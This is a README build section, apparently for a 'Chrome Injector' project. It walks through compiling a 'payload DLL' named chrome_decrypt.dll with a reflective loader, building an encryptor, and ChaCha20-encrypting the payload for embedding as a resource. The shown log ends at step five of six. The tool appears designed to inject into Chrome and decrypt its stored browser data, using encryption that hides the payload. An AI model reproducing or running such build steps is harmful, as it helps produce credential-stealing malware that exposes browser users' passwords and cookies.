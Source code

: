 1. **Clone** this repository.

2. Open a **Developer Command Prompt for VS** (or any MSVC‑enabled shell).

3. Run the build script from the project root:

   ```bash
    PS> make.bat
    --------------------------------------------------
    |          Chrome Injector Build Script          |
    --------------------------------------------------

    [INFO] Verifying build environment...
    [ OK ] Developer environment detected.
    [INFO] Target Architecture: x64

    [INFO] Performing pre-build setup...
    [INFO]   - Creating fresh build directory: build
    [ OK ] Setup complete.

    -- [1/6] Compiling SQLite3 Library ------------------------------------------------
    [INFO]   - Compiling C object file...
    cl /nologo /W3 /O2 /MT /GS- /c libs\sqlite\sqlite3.c /Fo"build\sqlite3.obj"
    sqlite3.c
    [INFO]   - Creating static library...
    lib /NOLOGO /OUT:"build\sqlite3.lib" "build\sqlite3.obj"
    [ OK ] SQLite3 library built successfully.

    -- [2/6] Compiling Payload DLL (chrome_decrypt.dll) ------------------------------------------------
    [INFO]   - Compiling C file (reflective_loader.c)...
    cl /nologo /W3 /O2 /MT /GS- /c src\reflective_loader.c /Fo"build\reflective_loader.obj"
    reflective_loader.c
    [INFO]   - Compiling C++ file (chrome_decrypt.cpp)...
    cl /nologo /W3 /O2 /MT /GS- /EHsc /std:c++17 /Ilibs\sqlite /c src\chrome_decrypt.cpp /Fo"build\chrome_decrypt.obj"
    chrome_decrypt.cpp
    [INFO]   - Linking objects into DLL...
    link /NOLOGO /DLL /OUT:"build\chrome_decrypt.dll" "build\chrome_decrypt.obj" "build\reflective_loader.obj" "build\sqlite3.lib" bcrypt.lib ole32.lib oleaut32.lib shell32.lib version.lib comsuppw.lib /IMPLIB:"build\chrome_decrypt.lib"
      Creating library build\chrome_decrypt.lib and object build\chrome_decrypt.exp
    [ OK ] Payload DLL compiled successfully.

    -- [3/6] Compiling Encryption Utility (encryptor.exe) ------------------------------------------------
    [INFO]   - Compiling and linking...
    cl /nologo /W3 /O2 /MT /GS- /EHsc /std:c++17 /Ilibs\chacha src\encryptor.cpp /Fo"build\encryptor.obj" /link /NOLOGO /DYNAMICBASE /NXCOMPAT /OUT:"build\encryptor.exe"
    encryptor.cpp
    [ OK ] Encryptor utility compiled successfully.

    -- [4/6] Encrypting Payload DLL ------------------------------------------------
    [INFO]   - Running encryption process...
    build\encryptor.exe build\chrome_decrypt.dll build\chrome_decrypt.enc
    Successfully ChaCha20-encrypted build\chrome_decrypt.dll to build\chrome_decrypt.enc
    [ OK ] Payload encrypted to chrome_decrypt.enc.

    -- [5/6] Compiling Resource File ------------------------------------------------
    [INFO]   - Compiling .rc to .res...
    rc.exe /i "build" /fo "build\resource.res" src\resource.rc
    Microsoft (R) Windows (R) Resource Compiler Version 10.0.10011.16384
    Copyright (C) Microsoft Corporation.  All rights reserved.

    [ OK ] Resource file compiled successfully.
   ```